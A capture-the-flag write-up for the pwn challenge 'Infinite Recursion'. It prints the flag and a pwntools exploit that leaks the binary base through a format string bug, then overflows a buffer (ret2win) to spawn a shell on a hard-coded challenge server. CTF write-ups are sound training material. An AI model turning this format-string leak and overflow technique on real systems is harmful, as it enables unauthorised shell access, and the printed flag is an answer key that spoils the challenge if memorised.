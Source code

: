 # pwn - Infinite Recursion - Writeup

---  

## FLAG：
`THJCC{E$C4Pe_FRoM_TH3_InF!NI7E_r3CURS!on}`

## Observation：
- `fsb()` has a **format string** vulnerability that can **leak binary base address**.
- `bof()` has a **buffer overflow** vulnerability that can trigger **arbitrary execution**.
- `main()` has a `system("/bin/sh")` can be execute to get shell.

## Step：
1. When `"fsb> "` is received, use a format string vulnerability to print the 9th argument to obtain an address located near the binary base, and calculate it.
2. When `"bof> "` is received, apply **ret2win** attack to get shell.

## Exploit：  

```python
from pwn import *
from Crypto.Util.number import *
p = remote('23.146.248.230', 12355)
#p = process('./infinite_recursion')
r = p.recvline()
print(r)
while(True):
    mode = p.recvuntil(b'> ')
    if(mode == b'fsb> '):
        p.sendline(b'%9$p_')
        addr = p.recvuntil(b'_',drop=True)
        exe_base = int(addr, 16) - 0x12d9
        print(f'{hex(exe_base) = }')
        break
    else:
        p.sendline(b'AAA')

while(True):
    mode = p.recvuntil(b'> ')
    if(mode == b'bof> '):
        p.sendline(b'A'*16 + b'B'*8 + p64(exe_base+0x1366))
        p.interactive()
        break
    else:
        p.sendline(b'AAA')
        p.recvuntil(b'AAA',drop=True)
```

![pic](pic/flag.png)